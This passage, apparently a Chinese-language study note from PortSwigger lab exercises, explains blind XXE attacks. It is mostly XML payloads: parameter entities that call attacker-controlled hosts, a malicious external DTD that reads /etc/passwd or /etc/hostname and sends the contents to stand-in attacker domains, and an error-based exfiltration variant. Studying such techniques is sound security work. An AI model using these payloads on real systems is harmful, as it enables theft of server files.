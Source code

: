 因此使用xml参数实体来测试bind xxe

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

#### 案例4：xml参数实体测试bind xxe

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://iqc49sftkgw25zqwsh4igt443v9lxa.burpcollaborator.net"> %xxe;]>
```

#### 利用blind xxe去窃取数据

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-hacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

攻击者必须将恶意DTD托管在他们控制的系统上，通常将其加载到自己的Web服务器上。例如，攻击者可能在以下URL上提供了恶意DTD：

`http://web-attacker.com/malicious.dtd`

最后攻击者提交XXE payload

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM 
"http://web-attacker.com/malicious.dtd"> %xxe;]>`

> 这将导致XML解析器从攻击者的服务器获取外部DTD并内联解释,然后执行在恶意DTD中定义的步骤，并将`/etc/passwd`文件传输到攻击者的服务器

##### 案例5：通过外部恶意DTD进行blind XXE来窃取数据

*exploit.dtd*

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://97ev87wh180x394767mil6l3muskg9.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://acab1f1a1fa6a28080702fb7010600ac.web-security-academy.net/exploit.dtd"> %xxe;]>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

#### 通过错误信息窃取数据

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
